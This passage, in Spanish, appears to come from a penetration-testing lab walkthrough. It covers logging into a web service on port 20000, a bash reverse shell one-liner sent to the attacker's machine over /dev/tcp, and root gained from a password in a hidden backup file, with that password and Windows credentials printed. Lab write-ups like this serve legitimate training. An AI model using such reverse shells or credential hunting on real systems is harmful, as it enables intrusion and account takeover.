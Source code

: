 Por lo cual se va a tratar de iniciar sesion en los servicios web del puerto `10000` y `20000`

Para el servicio que corre en el puerto `20000` se obtiene un inicio de sesión éxitoso

![Untitled](/assets/img/labECCPT/Pasted image 20240321115320.png)

### Análisis de vulnerabilidades

Desde el servicio web que se ejecuta en el puerto `20000`, al cual logramos acceder, se ha comprobado que existe una conexión directa con nuestra máquina atacante. Esto se confirmó al realizar un `ping` hacia nuestra máquina atacante.

![Untitled](/assets/img/labECCPT/Pasted image 20240321121156.png)

Obteniendo en nuestra máquina atacante:

![Untitled](/assets/img/labECCPT/Pasted image 20240321121220.png)

### Explotación de vulnerabilidades

Mandando una reverse shell a nuestra máquina atacante a través de:

```bash
bash -i >& /dev/tcp/192.168.1.18/443 0>&1
```

![Untitled](/assets/img/labECCPT/Pasted image 20240321121432.png)

Obteniendo:

![Untitled](/assets/img/labECCPT/Pasted image 20240321121459.png)

### Escalada de privilegios

En la ruta `/var/backups/` se encuentra un archivo oculto `.old_pass.bak` el cual contiene una posible contraseña

```bash
Ts&4&YurgtRX(=~h
```

Probando si nos podemos convertir en root y se tiene éxito

En el directorio de `/root` se tiene:

![Untitled](/assets/img/labECCPT/Pasted image 20240321134335.png)

También se encuentra un archivo `user_credentiasl.txt` que nos lista lo que parece ser credenciales para la maquina Windows

```bash
winadmin:winadmin
```

![Untitled](/assets/img/labECCPT/Pasted image 20240321134349.png)
